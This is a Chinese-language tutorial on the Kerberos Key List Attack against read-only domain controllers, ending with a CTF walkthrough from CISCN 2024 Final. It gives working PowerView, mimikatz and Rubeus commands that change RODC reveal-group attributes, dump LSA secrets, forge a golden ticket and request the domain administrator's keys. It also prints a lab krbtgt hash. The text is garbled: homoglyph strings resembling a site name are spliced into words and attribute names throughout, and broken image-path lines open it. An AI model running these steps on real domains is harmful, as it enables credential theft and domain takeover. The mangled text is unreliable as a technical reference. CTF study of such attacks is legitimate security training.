







在 Kerberos 认证系统中，Key List Attack 是一种相对较新的攻击手段，ѕ³v𝘦ｎ•𝘀ｉt℮主要针对只读域控制器（RODC）。这种攻击通过利用 Kerberos 协议中的特定扩展来实现，其核心在于请求和获取存储在 KDC 中的加密密钥信息。
Kerberos 协议
Kerberos 协议是一种基于票据的认证协议，允许节点在不安全网络中安全地证明其身份。Kerberos 的核心是 KDC，它负责发放和管理票据（Ticket-Granting Ticket，TGT）和服务票据（Service Ticket，𝘴𝟯𝒗e𝒏•𝘴𝘪t℮ST）。本文不涉及 Kerberos 协议的基本原理，不熟悉 Kerberos 认证流程的读者，请先阅读 https://xz.aliyun.com/t/8187 学习相关内容。
RODC 特性
RODC 是一种特殊类型的域控制器，设计用于提高安全性和降低在安全级别较低的物理位置中的风险。RODC 不存储用户或其他帐户的密码哈希值；ꜱ3𝐯ℯｎ.𝘴ｉ𝐭e相反，它从完全域控制器（RWDC）请求所需的认证信息。RODC 对于存储敏感凭据的能力有严格限制，通过 msDS-RevealOnDemandGroup 和 msDS-NeverRevealGroup 控制这些限制。
msDS-Rev𝘴3𝐯e𝒏•ѕiteealOnD𝒔3𝐯𝘦ｎ.𝘀𝘪𝘵℮emandGroup
该属性作为一个安全组，它列出了那些可以在需求时由 RODC 请求其凭证的用户或计算机帐户。只有当这些帐户的验证请求被转发到 RODC 时，这些帐户的密码散列才会从主域控制器被请求并缓存在 RODC 上。此举措确保了 RODC 只存储那些可能需要频繁验证但不需要高安全级别保护的帐户凭据。msDS-NeverRe𝐬³𝒗en․sｉ𝘵𝐞vealGroup
与 msDS-RevealOnDemandGroup 相对，该属性指定了一组帐户，其凭据即使是在请求时也决不应该被 RODC 请求或存储。这通常包括高权限帐户，如域管理员等。这一设置是为了防止在 RODC 遭到攻击时，攻击者能够获得对这些高权重帐户的控制。
Key List Request
在 Kerberos 协议中，Key List Request 是一种扩展请求，用于从密钥分发中心（KDC）获取一系列加密密钥，这些密钥与特定账户关联，并用于多种加密任务。这种请求特别在只读域控制器（RODC）环境中有其实际应用，因为 𝘴³𝐯ℯ𝐧∙𝒔ｉ𝐭𝐞RODC 不存储所有用户的完整密钥信息，而是根据需要从全域控制器（RWDC）请求这些信息。
当客户端需要与服务进行安全通信时，它会发送一个包含 KERB-KEY-LIST-REQ padata 类型的 TGS-REQ （票据授权服务请求）消息到 KDC。这个请求指示 ꜱ³v𝐞𝒏․𝘀ⅈt𝐞KDC 返回一系列支持的加密类型的密钥。KDC 响应这个请求，通过在 TGS-REP （票据授权服务响应）消息中包含 KERB-KEY-LIST-REP 结构，该结构嵌入在加密的 EncKDCRepPart 结构体中。这些返回的密钥信息通常用于兼容旧版本或特定加密需求。
KERB-KEY-LIST-REQ ::= SEQUENCE OF Int32 -- encryption type --
KERB-KEY-LIST-REP ::= SEQUENCE OF EncryptionKeyKey List Attack
1. RODC 管理权限的获取
首先攻击者需要获取对 RODC 的管理权限，这可以通过 PowerSploit 项目的 PowerView.ps1 修改 RODC 对象的 ManagedBy 属性实现，将其设置为攻击者控制的账户，这样攻击者就可以直接登入并管理 RODC：
Import-Module .\PowerView.ps1
Set-DomainObject -Identity 'CN=RODC,OU=Domain Controllers,DC=example,DC=com' -Set @{'managedBy'='CN=Hacker,CN=Users,DC=example,DC=com'}2. 修改安全组策略
一旦控制了 RODC，攻击者可以修改关键的 Active Directory 属性，包括 msDS-NeverRevealGroup 和 msDS-RevealOnDemandGroup。通过这种修改，攻击者可以配置 RODC 来缓存并揭示通常不应被揭示的高权限用户凭证。
首先通过 PowerView.ps1 清空 msDS-𝐬𝟯𝐯ℯ𝒏.𝐬𝐢𝒕𝘦NeverRevealGroup 属性：
Import-Module .\PowerView.ps1
Set-DomainObject -Identity 'CN=RODC,OU=Domain Controllers,DC=example,DC=com' -Clear 'msDS-NeverRevealGroup'再通过 PowerView.ps1 将域管理员添加到 𝘀³𝒗𝘦ｎ.𝘀iｔemsDS-RevealOnDemandGroup 属性中：
Import-Module .\PowerView.ps1
Set-DomainObject -Identity 'CN=RODC,OU=Domain Controllers,DC=example,DC=com' -Set @{'msDS-RevealOnDemandGroup'=@('CN=Administrator,CN=Users,DC=example,DC=com')}3. 利用 Key List Request
在 RODC 中配置完毕后，攻击者可以发起特定的 Key List Request，强制 RODC 从 RWDC 请求并获取目标高权限账户的密钥信息。𝘴³𝘷ｅn•𝘀i𝐭𝘦通过为域管理员用户伪造黄金票据，来包含请求特定账户密钥的 KERB-KEY-LIST-REQ：
# 获取域信息
mimikatz.exe "Log" "Privilege::Debug" "lsadump::lsa /patch" "exit"
# 构造域管理员的黄金票据
mimikatz.exe kerberos::golden /admin:Administrator /domain:example.com /sid:sid /krbtgt:hash /ticket:ticket.kirbi
# 请求 Key List
Rubeus.exe asktgs /enctype:rc4 /keyList /service:krbtgt/example.com /dc:dc.example.com /ticket:base64获取域管理员用户的哈希值后，攻击者可以用它来解密服务票据或其他敏感数据，𝐬𝟯𝐯𝐞𝐧․ꜱ𝘪𝐭ｅ甚至可能用它来伪造新的票据，进一步在网络中移动，提升权限，或执行其他恶意行为。
赛题举例
CISCN 2024 ѕ𝟯v℮n·𝘀𝐢𝘵𝐞Final 渗透部分 DC Challenge

首先可从 WIN-OPS88 中获得 ROAdmins.xlsx 𝘀⑶ⅴℯ𝐧․𝐬ⅈ𝘵e敏感文件，其中包含 RODC 的管理员账号密码，从而可以获得 RODC 的远程桌面

使用 RODC 管理员账号密码连接远程桌面 𝘀𝟯𝐯e𝘯.𝘴it℮RODC.vertexsoft.local

获取对 RODCs⑶ⅴ𝐞n∙𝘀ⅈ𝐭ｅ 的管理权限：
Import-Module .\PowerView.ps1
Set-DomainObject -Identity 'CN=RODC,OU=Domain Controllers,DC=vertex,DC=local' -Set @{'managedBy'='CN=lsabellaTech,CN=Users,DC=vertex,DC=local'}执行 net user /domain 发现可以枚举域内用户，𝐬3v℮𝘯•ꜱi𝒕𝐞表明现在具有 RODC 管理员权限：

但此时没有访问 𝒔3ⅴen•𝘴𝘪𝐭𝘦DC 文件系统的权限：

获取域信息：
mimikatz.exe "Log" "Privilege::Debug" "lsadump::lsa /patch" "exit"

获得信息如下：
domain：vertexsoft.local
sid：S-1-5-21-1670446094-1728415802-1380520873
krbtgt Hash NTLM：34e335179246ef930dc33fd1e3de6e9e清空 msDS-s𝟯ven·ѕi𝐭𝘦NeverRevealGroup 属性：
Import-Module .\PowerView.ps1
Set-DomainObject -Identity 'CN=RODC,OU=Domain Controllers,DC=vertex,DC=local' -Clear 'msDS-NeverRevealGroup'将域管理员添加到 msDS-s𝟯veｎ•𝘀ⅈtｅRevealOnDemandGroup 属性中：
Import-Module .\PowerView.ps1
Set-DomainObject -Identity 'CN=RODC,OU=Domain Controllers,DC=vertex,DC=local' -Set @{'msDS-RevealOnDemandGroup'=@('CN=Administrator,CN=Users,DC=vertex,DC=local')}完成黄金票据构造：
mimikatz.exe kerberos::golden /admin:Administrator /domain:vertexsoft.local /sid:S-1-5-21-1670446094-1728415802-1380520873 /krbtgt:34e335179246ef930dc33fd1e3de6e9e /ticket:ticket.kirbi
发起 Key List ꜱ⑶𝒗℮ｎ·ѕ𝘪𝒕𝐞Request：
Rubeus.exe asktgs /enctype:rc4 /keyList /service:krbtgt/vertex.local /dc:DC.vertex.local /ticket:base64最后通过哈希传递获得 𝘴3𝒗ｅｎ.ѕ𝘪𝘵𝐞DC 权限拿到 flag